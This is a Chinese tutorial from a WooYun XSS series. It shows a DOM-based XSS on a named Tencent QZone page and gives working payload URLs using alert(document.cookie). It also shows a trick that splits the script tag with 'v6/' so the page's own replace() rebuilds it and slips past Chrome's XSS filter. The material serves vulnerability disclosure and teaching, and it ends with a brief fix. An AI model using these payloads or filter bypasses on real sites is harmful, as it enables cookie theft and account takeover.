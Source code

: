 # 18\. XSS 过滤器绕过 [猥琐绕过]

# 18\. XSS 过滤器绕过 [猥琐绕过]

> 来源：[18\. XSS 过滤器绕过 [猥琐绕过]](http://www.wooyun.org/bugs/wooyun-2010-016678)

## 简要描述

有些时候，通用的绕过技巧并不可行，这个时候我们就得观察缺陷点的周围环境，想想其它办法咯。“猥琐绕过”与通用绕过不 同的是，它通用性小，往往只是特例。

## 详细说明

1\. 直接看实例点：

```
http://qzs.qq.com/qzone/v6/custom/custom_module_proxy.html#siDomain=1&g_StyleID=aaaaaaaaaa 
```

2\. 可以看出，这是一个 DOM XSS 的点。

![image](img/Image_096.jpg)

3\. 我们看看源码。

```
....
var siDomain = paras['siDomain'],
    g_StyleID = paras['g_StyleID'].replace("v6/",""); 
if(siDomain.indexOf(".qq.com")>-1){//防止 qzs.qq.com
    siDomain = paras['siDomain'] = "qzonestyle.gtimg.cn";
}
document.write('<link href="http://'+siDomain+'/qzone_v6/gb/skin/'+g_StyleID+'.css" rel="stylesheet" /><link href="http://'+siDomain+'/qzone_v6/home_normal.css" rel="stylesheet" />');
... 
```

不难看出，siDomain 与 g_StyleID 都是地址栏里获取过来，然后通过 document.write 输出到页面中。 4\. 利用先前教程的知识，我们不难构造出利用代码。

```
http://qzs.qq.com/qzone/v6/custom/custom_module_proxy.html#siDomain=1&g_StyleID="><script>alert(document.cookie)</script> 
```

可以看到，IE 下成功弹出。

![image](img/Image_097.jpg)

5\. 但是到了 chrome 下，又被拦截了。。

![image](img/Image_098.jpg)

6\. 这个时候怎么办呢？ 因为这里接受地址栏的参数时，是以 `"="` 分割，因而我们的代码中是不允许携带 等号的。故上一篇的技巧不 能拿到这里来使用了！

7\. chrome 拦截，是有一定的拦截规则的，只有它觉得是恶意代码的才会去拦截。这个时候，就需要我们“观察地形”啦！！ 我们仔细看看这句。

```
g_StyleID = paras['g_StyleID'].replace("v6/",""); 
```

8\. 不难看出，这里会对 `g_StyleID` 进行一次替换，将 `v6/`替换为空。那么如果我们的 `g_StyleID` 写为下面的情况

```
<scrv6/ipt>alert(document.cookie)</script> 
```

经过替换后，就会变成。

```
<script>alert(document.cookie)</script> 
```

但是 chrome 并不会把<scrv6/ipt>alert(document.cookie)</script> 当作恶意的，是不是就可以绕过了？ 我们试试。

```
http://qzs.qq.com/qzone/v6/custom/custom_module_proxy.html#siDomain=1&g_StyleID="><scv6/ript>alert(document.cook ie)</script> 
```

果然可以～

![image](img/Image_099.jpg)

这样一来，我们这个 XSS，就不会被浏览器的 XSS 过滤器所蹂躏啦！

## 修复方案

进入 document.write 前，先过滤下